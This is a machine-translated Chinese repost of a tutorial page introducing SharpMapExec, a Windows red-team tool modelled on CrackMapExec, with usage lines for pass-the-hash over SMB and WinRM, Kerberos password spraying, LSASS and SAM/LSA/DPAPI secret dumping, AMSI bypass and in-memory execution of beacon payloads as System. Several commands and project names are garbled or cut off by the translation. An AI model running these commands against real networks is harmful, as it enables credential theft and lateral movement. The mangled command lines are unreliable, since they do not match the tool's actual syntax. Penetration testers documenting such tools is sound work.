 # SharpMapExec:CrackMapExec 的锐化版本

> 原文：<https://kalilinuxtutorials.com/sharpmapexec/>

[![SharpMapExec : A Sharpen Version Of CrackMapExec](img/f4da45d5aaa8161e3b3cb1bb3c0184e7.png "SharpMapExec : A Sharpen Version Of CrackMapExec")](https://1.bp.blogspot.com/-1ShiuJHC2h8/X-pSjt0qVRI/AAAAAAAAIO4/BNm4_50njAQxyU8hYcNtijjHf18huKjgACLcBGAsYHQ/s728/SharpMapExec%25281%2529.png)

SharpMapExec 是 [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) 的锐化版本。该工具旨在简化网络渗透测试，并创建一把运行在 Windows 上的瑞士军刀，这通常是内部威胁模拟活动中的一项要求。

除了扫描访问之外，它还可用于识别易受攻击的配置和泄漏数据。数据渗透模块的思想是在远程计算机上执行最少的必要代码。为此，该工具会将所有的秘密下载到 loot 目录，并在本地解析它们。

您可以指定是使用 Kerberos 还是 NTLM 身份验证。如果您选择 Kerberos，该工具将创建一个牺牲令牌，并使用 [Rubeus](https://github.com/GhostPack/Rubeus) 来导入/请求票证。如果指定了 NTLM，it 工具将创建线程并使用 [Sharpish](https://github.com/b4rtik/SharpKatz) 运行 SetThreadToken(如果指定了 NTLM 散列),如果指定了密码，它将使用普通的 c#模拟。

**SharpMapExec.exe
用法:** 
**—Smb—**
SharpMapExec.exe NTLM Smb/USER:USER/NTLM:HASH/DOMAIN:DOMAIN/computer name:TARGET
SharpMapExec.exe Kerberos Smb/computer name:TARGET
可用 Smb 模块
/m:shares

**—WinRm—**
SharpMapExec.exe NTLM WinRm/USER:USER/PASSWORD:PASSWORD/DOMAIN:DOMAIN:DOMAIN/computer name:TARGET
SharpMapExec.exe Kerr 和系统 DP API blobs)
/m:Assembly/p:rube us . exe/a:dump(在内存中执行本地 C#汇编)
/m:Assembly/p:beacon . exe/System(在内存中作为系统执行本地 C#汇编)
/m:Download/path:C:\ File/destination:File(从主机下载文件)

**—Domain—**
SharpMapExec.exe kerb spray/USERS:USERS。 TXT/password:密码。SharpMapExec.exe TXT/DOMAIN:DOMAIN/DC:DC
tgtdeleg

**中小企业**

可用于扫描管理员访问权限和可访问的 Smb 共享。

*   **模块；**

**/m:份额(扫描枚举的份额进行访问)**

**WinRm**

野兽。它有内置的 Amsi 旁路，JEA 语言突破，JEA 功能分析。可用于代码执行、PsRemote 访问扫描、易受攻击的 JEA 端点和数据渗透。

**模块；**

**/m:exec/a:whoami(Invoke-Command)
/m:exec/a:C:\ beacon . exe/System(Invoke-Command as System)
/m:coms VCS(Dump Lsass 进程)
/m:secrets(转储并解析 Sam、Lsa 和系统 DP API blob)
/m:Assembly/p:rube us . exe/a:Dump(在内存中执行本地 C#汇编)
/m:Assembly/p:beacon . exe/System(系统**

**域**

目前支持域密码喷涂，并为当前用户创建一个 TGT，可以与/ticket 参数一起使用来获取当前上下文。

**示例用法**

用于 C#程序集的简单或大量内存执行

![](img/a5608a6f22041a25f86e32b3eb5a4510.png)

Kerberos 密码喷射，然后扫描本地管理员访问

![](img/c220422cd6056f26ead265813a630d1d.png)

该项目支持扫描 JEA 端点，并将分析非默认命令的源代码，并检查端点是否未配置为`no-language`模式。

![](img/67ce02b2d0981e66a5849eaeb0a3a56c.png)

使用 NT 哈希发现本地管理员密码重用。

![](img/bb89445be640a321e51b35f64aff66ca.png)

内置微软签名 DLL 的批量转储 Lsass 进程，并将其保存到`loot`文件夹

![](img/a5df9c7555976bff5e22ac1ee14ac9b0.png)

还有更多！

Kerberos 的一些场景要求您将时钟与 DC 同步，并设置 DNS

net time \ \ dc01 . hackit . local/Set Get-net adapter Ethernet 0 * | Set-DnsClientServerAddress-server addresses @(' 192 . 168 . 1 . 10 ')

**致谢**

该工具中有帮助的或现有的项目

*   [鲁伯](https://github.com/GhostPack/Rubeus) [@Harmj0y](https://twitter.com/harmj0y)
*   [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)[@ harmj 0y](https://twitter.com/harmj0y)
*   [夏普卡兹](https://github.com/b4rtik/SharpKatz) [@b4rtik](https://twitter.com/b4rtik)
*   [Amsi。失败](https://github.com/Flangvik/AMSI.fail) [@Flangvik](https://twitter.com/Flangvik)
*   [sharpsecdump](https://github.com/G0ldenGunSec/SharpSecDump)[@ G0 身份证秒](https://twitter.com/G0ldenGunSec)
*   [遇着 MapExec](https://github.com/byt3bl33d3r/CrackMapExec) [@byt3bl33d3r](https://twitter.com/byt3bl33d3r)